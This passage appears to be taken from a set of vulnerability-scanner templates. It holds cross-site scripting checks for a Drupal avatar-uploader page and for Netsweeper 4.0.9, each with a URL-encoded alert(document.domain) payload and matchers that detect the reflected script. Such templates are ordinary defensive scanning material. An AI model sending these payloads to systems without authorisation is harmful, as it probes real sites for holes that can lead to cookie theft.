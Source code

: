- severity - high
- tags - xss,drupal,edb,packetstorm
## Requests
- Method - GET
### URL
- {{BaseURL}}/avatar_uploader.pages.inc?file=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E
### Matchers

**Type - word**
- part - body
- words
    1. \<div>\<script>alert(document.domain)\</script>\</div>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Netsweeper 4.0.9 - Cross-Site Scripting
## Description
- Netsweeper 4.0.9 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - edb,xss,packetstorm,netsweeper
## Requests
- Method - GET
### URL
- {{BaseURL}}/webadmin/reporter/view_server_log.php?server=localhost&act=stats&filename=&offset=1&count=1000&sortorder=&log=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&offset=&sortitem=&filter=
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html
